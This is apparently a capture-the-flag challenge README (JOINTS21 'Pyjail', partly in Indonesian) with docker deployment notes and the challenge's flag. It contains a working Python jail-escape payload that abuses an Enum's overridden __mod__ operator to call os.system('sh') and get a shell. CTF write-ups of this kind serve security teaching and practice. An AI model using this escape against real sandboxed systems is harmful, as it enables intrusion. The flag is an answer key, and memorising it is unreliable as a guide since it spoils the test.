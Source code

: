## Judul Soal
Pyjail

## Deskripsi Soal

> `nc ip port`

---
## Proof of Concept

- Make use of pre-defined `Enum class` in order to override `__mod__` operator
- Using declared `os` module, simply craft payload like `os.system('sh')`
- Final payload will be like this
    ```
    # os.system(str(bytearray(['s','h'])))
    
    [[A.attr%i for A.__mod__ in [os.system]] for i in [[A.attr%i for A.__mod__ in [str]] for i in [[A.attr%i for A.__mod__ in [bytearray]] for i in [[A.attr%i for A.__mod__ in [chr] for i in [115, 104]]]][0]][0]]
    ```
---

## Catatan deployment

Konfigurasi `docker` ada di directory `server`. Ganti `port` sesuai kebutuhan.


```sh
# Build
$ docker-compose build

# Deploy
$ docker-compose up -d
```

## Flag
JOINTS21{0verride_3num_on_remaind3r_op3rati0n_ftw}
